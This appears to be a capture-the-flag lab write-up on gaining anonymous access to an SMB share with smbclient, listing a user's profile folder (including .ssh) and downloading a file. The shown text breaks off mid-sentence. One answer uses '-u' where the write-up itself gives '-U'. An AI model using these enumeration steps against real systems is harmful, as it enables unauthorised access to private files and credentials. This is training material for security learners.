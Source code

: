 

## Exploiting SMB

#### Types of SMB Exploit
While there are vulnerabilities such as [CVE-2017-7494](https://www.cvedetails.com/cve/CVE-2017-7494/) that can allow remote code execution by exploiting SMB, you're more likely to encounter a situation where the best way into a system is due to misconfigurations in the system. In this case, we're going to be exploiting anonymous SMB share access- a common misconfiguration that can allow us to gain information that will lead to a shell.

#### Using SMBClient to Exploit
Because we're trying to access an SMB share, we need a client to access resources on servers. We will be using SMBClient because it's part of the default samba suite. 

We can remotely access the SMB share using the syntax:
```bash
$ smbclient //[IP]/[SHARE]

# Followed by:
# -U [name] : to specify the user
# -p [port] : to specify the port
```

#### Answer
What would be the correct syntax to access an SMB share called "secret" as user "suit" on a machine with the IP 10.10.10.2 on the default port?
```bash
$ smbclient //10.10.10.2/secret -u suit -p 139
```

Does the share (previous machine) allow anonymous access? Y/N?
```bash
$ smbclient //10.10.88.18/profiles -p 139                                                     1 ⨯
Enter WORKGROUP\kali's password: 
Try "help" to get a list of possible commands.
smb: \>
```
The answer is **Y**es.  

Great! Have a look around for any interesting documents that could contain valuable information. Who can we assume this profile folder belongs to?
```bash
smb: \> dir
  .                                   D        0  Tue Apr 21 07:08:23 2020
  ..                                  D        0  Tue Apr 21 06:49:56 2020
  .cache                             DH        0  Tue Apr 21 07:08:23 2020
  .profile                            H      807  Tue Apr 21 07:08:23 2020
  .sudo_as_admin_successful           H        0  Tue Apr 21 07:08:23 2020
  .bash_logout                        H      220  Tue Apr 21 07:08:23 2020
  .viminfo                            H      947  Tue Apr 21 07:08:23 2020
  Working From Home Information.txt      N      358  Tue Apr 21 07:08:23 2020
  .ssh                               DH        0  Tue Apr 21 07:08:23 2020
  .bashrc                             H     3771  Tue Apr 21 07:08:23 2020
  .gnupg                             DH        0  Tue Apr 21 07:08:23 2020

                12316808 blocks of size 1024. 7584028 blocks available

smb: \> get "Working From Home Information.txt" 
getting file \Working From Home Information.txt of size 358 as Working From Home Information.txt (0.4 KiloBytes/sec) (average 0.4 KiloBytes/sec)
```
If we open the file, it's look like this:
```
John Cactus,

As you're well aware, due to the current pandemic most of POLO inc. has insisted that, wherever 
```